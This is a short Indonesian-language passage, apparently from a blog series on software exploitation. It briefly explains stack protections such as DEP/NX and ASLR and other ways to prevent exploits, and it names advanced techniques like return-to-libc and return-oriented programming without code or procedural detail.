- DEP/NX Bit: proteksi level hardware dengan bantuan OS, membuat data di-stack tidak bisa dieksekusi
- ASLR: Address Space Layout Randomization. Proteksi level OS yang memindahkan alamat memori supaya lebih sulit menemukan alamat untuk diserang
Hal lain untuk mencegah eksploit adalah: review kode, memakai library yang melakukan pengecekan lebih ketat, memakai compiler yang mengecek akses array, dsb. Hal ketiga adalah mengenai teknik eksploitasi tingkat lanjut, kebanyakan teknik ini dikembangkan berhubungan dengan proteksi stack overflow. Contoh:
- Return-to-libc
- Register spring
- Return oriented programming (generalisasi dari return-to-libc)
Kemungkinan seri tulisan saya tidak akan membahas semuanya secara detail (misalnya prinsip return oriented programming mudah dijelaskan, tapi detail praktiknya akan sangat panjang).
Copyright © 2009-2018 Yohanes Nugroho